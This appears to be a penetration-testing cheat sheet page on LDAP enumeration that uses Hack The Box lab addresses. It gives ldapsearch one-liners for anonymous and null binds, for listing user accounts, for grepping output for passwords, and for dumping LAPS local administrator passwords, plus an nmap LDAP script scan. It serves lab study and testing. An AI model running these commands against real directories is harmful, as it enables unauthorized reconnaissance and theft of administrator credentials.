# LDAP

### anonymous authentication&#x20;

If server accepts anonymous authentication

{% code overflow="wrap" %}
```bash
# gets all attributes
ldapsearch -x -H 'ldap://10.10.10.161:389' -b "dc=htb,dc=local" "*" #i.e. domain = htb.local
# find user accounts
ldapsearch -x -H 'ldap://10.10.10.161:389' -b "dc=htb,dc=local" "objectclass=user"
# get possible username
ldapsearch -x -H 'ldap://10.10.10.161:389' -b "dc=htb,dc=local" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F ": " '{print $2}'
# dump LAPS passwords
ldapsearch -D user@htb.local -w PASSWORD -o ldif-wrap=no -b 'dc=htb,dc=local' -H 'ldap://10.10.10.161:389' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
{% endcode %}

search LDAP with admin account

{% code overflow="wrap" %}
```bash
ldapsearch -x -H 'ldap://10.10.10.10:389' -D User -w P@ssw0rd123 -b "dc=htb,dc=local"
```
{% endcode %}

```
nmap -n -sV --script "ldap* and not brute" -p389,3268 192.168.105.122
```

### null bind

```
ldapsearch -x -H 'ldap://192.168.105.122:389' -D '' -w '' -b "DC=domain,DC=local"
ldapsearch -x -H 'ldap://10.10.10.182:389' -D '' -w '' -b "DC=domain,DC=local" | grep Pwd
ldapsearch -x -H 'ldap://10.10.10.182:389' -D '' -w '' -b "DC=domain,DC=local" | grep pass
# make a list of existing users
ldapsearch -x -H 'ldap://10.10.10.172:389' -D '' -w '' -b "DC=DOMAIN,DC=LOCAL" | grep sAMAccountName | tr -d ':' | sed 's/s//' | sed 's/A//' | sed 's/M//' | sed 's/A//'| sed 's/c//' | sed 's/c//'| sed 's/o//' | sed 's/u//' | sed 's/n//'| sed 's/t//' | sed 's/N//'| sed 's/a//' | sed 's/m//' | sed 's/e//' > ldapusers.txt
```

### authenticated

```
ldapsearch -H ldap://10.10.10.248 -x -W -D "user@domain.local" -b "dc=domain,dc=local"
```

## Resources

{% embed url="https://vk9-sec.com/enumerating-ad-users-with-ldap/" %}

{% embed url="https://infinitelogins.com/2020/12/09/enumerating-ldap-port-389/" %}

{% embed url="https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/" %}
